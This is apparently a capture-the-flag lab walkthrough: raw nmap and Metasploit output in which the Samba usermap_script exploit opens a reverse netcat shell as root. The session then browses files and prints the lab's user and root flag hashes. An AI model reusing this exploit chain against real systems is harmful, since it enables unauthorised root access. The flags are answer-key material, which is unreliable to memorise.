 #### sudo nmap -sC -sV 10.10.10.3
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  �
               ^�zU      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

> ftp anonymous login allowed
> vulnerability doesn't found, there are no directory to enumerate after successfully login

#### msfconsole
search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   1   exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   2   exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   3   exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   4   post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations
   5   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   6   exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   7   exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   8   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   9   exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   12  auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   13  exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   14  exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   15  auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   16  auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   18  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   19  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20  auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   21  exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   22  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   23  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   24  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   25  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow


Interact with a module by name or index. For example info 25, use 25 or use exploit/windows/http/sambar6_search_results

msf6 > use 8
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Exploit completed, but no session was created.
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.3       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/
                                       basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.5
lhost => 10.10.14.5
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Command shell session 1 opened (10.10.14.5:4444 -> 10.10.10.3:41642) at 2023-10-10 05:04:02 -0400

pwd
/
whoami
root
help

Meta shell commands
===================

    Command     Description
    -------     -----------
    help        Help menu
    background  Backgrounds the current shell session
    sessions    Quickly switch to another session
    resource    Run a meta commands script stored in a local file
    shell       Spawn an interactive shell (*NIX Only)
    download    Download files
    upload      Upload files
    source      Run a shell script on remote machine (*NIX Only)
    irb         Open an interactive Ruby shell on the current session
    pry         Open the Pry debugger on the current session

ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd home
ls
ftp
makis
service
user
help

Meta shell commands
===================

    Command     Description
    -------     -----------
    help        Help menu
    background  Backgrounds the current shell session
    sessions    Quickly switch to another session
    resource    Run a meta commands script stored in a local file
    shell       Spawn an interactive shell (*NIX Only)
    download    Download files
    upload      Upload files
    source      Run a shell script on remote machine (*NIX Only)
    irb         Open an interactive Ruby shell on the current session
    pry         Open the Pry debugger on the current session

dir
ftp  makis  service  user
pwd
/home
cd user
pwd
/home/user
dir
ls
dir
cd ..
pwd
/home
cd ftp
dir
cd ..
cd makis
dir
user.txt
cat user.txt
ca523e0b3e9f38514de8a441803ff014
pwd
/home/makis
cd ..
cd ..
pwd
dir
/
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
cd root
dir
Desktop  reset_logs.sh  root.txt  vnc.log
cat root.txt
ed6b26f953edcd576838a733d4a9f89e